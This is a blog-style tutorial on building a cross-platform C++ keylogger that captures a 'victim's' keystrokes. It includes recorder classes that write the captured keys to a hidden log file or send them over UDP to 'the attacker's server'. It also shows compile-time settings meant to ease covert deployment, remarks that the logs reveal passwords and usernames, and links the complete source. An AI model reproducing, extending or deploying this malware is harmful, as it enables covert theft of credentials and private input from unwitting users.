 ```yaml
---
title: "keylogger: A Cross-Platform Keylogger"
date: 2023-11-13T11:04:37-08:00
description: "How to write a cross platform keylogger."
tags: ["cli-tools", "c++", "linux", "windows", "x11"]
---
```


If you're familiar with the [kbhell][1] application, you might realize that
kbhell is about 90% of the way to being a keylogger. Why not finish the job and
write a proper, cross platform keylogger that captures a victim's every
keystroke (for science reasons, of course)?

## The Requirements

So there's the obvious requirement of capturing user keystrokes. When you think
about the fact that keyboards have different layouts, there are different
language sets, etc., the task becomes challenging.

Another interesting issue that comes up is how do you record the keystrokes? You
could write it to a hidden file on the victim's PC. Yeah that works but then
you'd need a way of getting that file off their PC. Another idea is to transmit
the data over the network. If sending data over the network, what should trigger
packet transmission? Do you send when you hit some packet size threshold or do
you send data at a fixed frequency?

As an answer to these questions, this keylogger will adhere to the following
requirements:

1. Record user keystrokes that correspond to printable characters as defined by
   the currently installed C locale.
2. Support recording to a plaintext file on the victim PC.
3. Support recording to a UDP socket.
4. Support a configurable recording mode.
5. Support a configurable capture frequency.

The next sections discuss the implementation of these requirements.

## Capturing Keystrokes

The ["Keyboard Hell"][1] article gives coverage of this topic. The basic idea is
that the X11 event system on Linux and global hooks on Windows intercept
keystrokes without any noticeable effect on the rest of the system.

You can use the `kbhell` keystroke capture code in `keylogger`'s implementation.
The only difference is that instead of playing a sound bite on every keystroke,
you're pushing characters to a recorder object's character buffer. You only push
printable characters as defined by [`std::isprint`][2]. The latter detail is
limiting in that you won't be able to completely playback the victim's key
history. That said, you can still analyze the output to find passwords, emails,
usernames, etc.

## Recording Modes

Based on the initial requirements, you want to support two recording modes: text
and network. Text mode captures character data to a plaintext file on the
victim's PC. Network mode transmits the character data over the network as UDP
packets from the victim's PC to the attacker's server.

Each mode has a recorder type object implementing the `Recorder` interface:

```cpp
/*!
 * \class Recorder
 * \brief Recorder defines an interface for buffering and transmitting user
 *        keystrokes.
 */
class Recorder {
 public:
  /*!
   * \brief Construct a recorder object with a key limit of \p key_limit.
   * \param key_limit The maximum number of keys the recorder will store in
   *                  memory.
   * \throws std::runtime_error When given a zero or negative \p key_limit
   *                            value.
   */
  explicit Recorder(int key_limit);

  Recorder() = delete;
  virtual ~Recorder() = default;
  Recorder(const Recorder&) = default;
  Recorder& operator=(const Recorder&) = default;
  Recorder(Recorder&&) = default;
  Recorder& operator=(Recorder&&) = default;

  /*!
   * \brief Buffer the char \p character in memory.
   * \details Characters are buffered in memory. If the buffer limit has been
   *          reached, the buffer will be emptied via a call to Transmit() and
   *          then \p character will be added to the buffer.
   * \param character A printable character as classified by the currently
   *                  installed C locale.
   * \throws std::runtime_error When BufferKeyPress() must call Transmit() to
   *                            make room for \p character in the buffer but
   *                            Transmit() fails.
   */
  void BufferKeyPress(char character);

  /*!
   * \brief Transmit keystroke buffer contents to the recording medium.
   */
  virtual void Transmit() = 0;

 protected:
  using CharList = std::vector<char>;

  int num_keys_;  /**< Number of keystrokes currently buffered. */
  CharList keys_; /**< Keystroke char buffer. */
};
```

`Recorder` types all maintain a fixed size `char` buffer called `keys_`. On
construction, the user specifies the size of the buffer via the `key_limit`
constructor parameter. The user can add characters to the buffer via the
`BufferKeyPress()` method. When the buffer is full, `BufferKeyPress()` calls
`Transmit()` and then inserts the new character. `Transmit()` is a method
implemented by all recorder types. `Transmit()` writes buffered data to some
recording medium (for example, a text file or a socket).

As you might have guessed by now, each recording mode has an associated
`Recorder` subtype. The text file recorder has the `FileRecorder` type and the
UDP recorder has the `NetworkRecorder` type. Below is the implementation of the
text and network recorders' `Transmit()` method.

```cpp
void FileRecorder::Transmit() {
  if (!num_keys_) {
    return;
  }

  /* We open and close the log file everytime Transmit() is called because we
   * want to ensure in the case the program is stopped abruptly, we will have a
   * chance at saving some keystroke data. */
  std::ofstream log_handle(log_path_.c_str(), std::ios_base::app);
  if (!log_handle) {
    throw std::runtime_error("unable to open key log file");
  }
  log_handle.write(keys_.data(), num_keys_);
  num_keys_ = 0;
}

void NetworkRecorder::Transmit() {
  if (!num_keys_) {
    return;
  }

  int bytes_sent = tx_socket_.Send(keys_.data(), num_keys_);
  if (bytes_sent != num_keys_) {
    std::cerr << "warning: only" << bytes_sent << "/" << num_keys_
              << "bytes sent" << std::endl;
  }
  num_keys_ = 0;
}
```

You'll notice that `FileRecorder::Transmit()` opens and closes the file handle
each time its called. Not the most efficient method of performing file IO.
However, the comment in the code explains the reasoning. When you halt the
keylogger, there's no guarantee that the data sent via the stream gets written
to the file. Explicitly closing the file handle flushes the stream contents. In
retrospect, this would have been a good use case for using
[`std::ostream::flush`][3].

The `NetworkRecorder` uses a wrapper around a Linux/Windows UDP socket to
transmit data. You can look at the UDP wrapper [source][4] to get the full
details.

## Configuration

You might expect to pass configuration via command line args. However, when you
think about the deployment use cases for a keylogger, having to inject your
keylogger's binary plus a bunch of CLI args doesn't sound appealing. To solve
this issue, `keylogger` is compile time configurable. Below are the
configuration options:

```cpp
enum RecorderType {
  kText = 0, /* Record to text file. */
  kNetwork,  /* Record to UDP socket. */
};

/* These are essentially your program options. You want to build your options
 * into the executable to make deployment of the keylogger easier down the line
 * (i.e., you don't want to have to sneakily deploy/inject the keylogger
 * executable AND a bunch of CLI options). */

/* Recording medium. */
#define RECORDER_TYPE RecorderType::kText
/* Max number of keystrokes buffered in memory before the data is written to the
 * recorder. */
#define RECORDER_KEY_LIMIT 8
/* Keystroke log file (RecorderType::kText only). */
#define RECORDER_FILE_PATH "/home/ieg/dev/keylogger/bin/keys.txt"
/* UDP socket IPv4 address and port of the remote server collecting keystroke
 * data (RecorderType::kNetwork only). */
#define RECORDER_IP "127.0.0.1"
#define RECORDER_PORT 5555
```

The keylogger user can select their recording mode and then set options specific
to that mode. One can edit the `keylogger.cpp` file directly or pass the
relevant options to the compiler (for example, `-DRECORDER_KEY_LIMIT=256`).

Regardless of the mode selected, you must always set `RECORDER_KEY_LIMIT`.
`RECORDER_KEY_LIMIT` controls the size of the keystroke buffer and therefore the
frequency of transmission. Set this value too low and the keylogger might be a
bit too noisey (that is, produces a lot of net traffic or disk IO overhead). Set
it too high and you might not see any data transmitted. The sweet spot is up to
the attacker to decide.

## Conclusion

Below is a demo showing `keylogger` in action on a Linux system.

{{< video src="/posts/2023/keylogger/keylogger-demo.mp4" type="video/mp4" preload="auto" >}}

The project includes `key_capture.py`, a script that prints captured key data
from a remote keylogger running in network mode. During the demo, the script
captures keystrokes from the NeoVim editor.

The toughest part of developing the keylogger is by far the capture of global
keystrokes which is highly dependent on the OS and display technology in use.
Beyond that, you have to decide how to record keystrokes. Be responsible with
how you use this or any keylogger!

Note, this project has since been rewritten in Rust. The complete project source
is available on GitHub under [keylogger][7]. The Rust implementation is **much**
simpler. The rdev crate does a lot of the heavy lifting when it comes to key
press detection.

[1]: https://programmador.com/posts/2023/keyboard-hell/
[2]: https://en.cppreference.com/w/cpp/string/byte/isprint
[3]: https://en.cppreference.com/w/cpp/io/basic_ostream/flush
[4]: https://github.com/ivan-guerra/keylogger/blob/master/include/io/udp/udp_socket.h
[5]: https://github.com/ivan-guerra/keylogger/blob/master/src/io/udp/linux_udp_socket.cpp
[6]: https://github.com/ivan-guerra/keylogger/blob/master/src/io/udp/windows_udp_socket.cpp
[7]: https://github.com/ivan-guerra/keylogger.git
